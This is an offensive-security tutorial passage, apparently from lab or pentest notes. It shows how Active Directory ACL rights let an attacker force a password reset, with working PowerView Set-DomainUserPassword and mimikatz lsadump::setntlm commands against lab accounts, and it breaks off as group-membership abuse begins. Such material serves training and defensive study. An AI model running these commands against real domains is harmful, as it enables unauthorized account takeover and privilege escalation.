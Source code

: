This abuse can be carried out when controlling an object that has a GenericAll, AllExtendedRights or User-Force-Change-Password over the target user.

### Change password (plaintext)
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```powershell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force 

Set-DomainUserPassword -Identity $TargetUser -AccountPassword $NewPassword

runas /$TargetUser:[domain\$TargetUser] cmd.exe
```

We can also use mimikatz:

```powershell
.\mimikatz.exe
privilege::debug
lsadump::setntlm
```

### Change password using SecureString Object

```powershell
# Wley will change the password of damundsen. First, open Powershell as Wley
# Creating a PSCredential Object
$SecPassword = ConvertTo-SecureString '$wleyPassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

# Creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
cd C:\Tools\
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Note: The **`SecureString` object** (`$SecPassword`) is associated with the **user `wley`** because it is used to create a **`PSCredential` object**, which represents a specific user's credentials. These credentials are used afterwards with the  `Set-DomainUserPassword` command, whereas the `-Credential` parameter ensures that all actions taken within that cmdlet use the privileges of the `wley` account.

##  AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Let's imagine we have gained access to the user damundsen via the ForceChangePassword abuse. Now we can continue using PowerView to take this attack further:
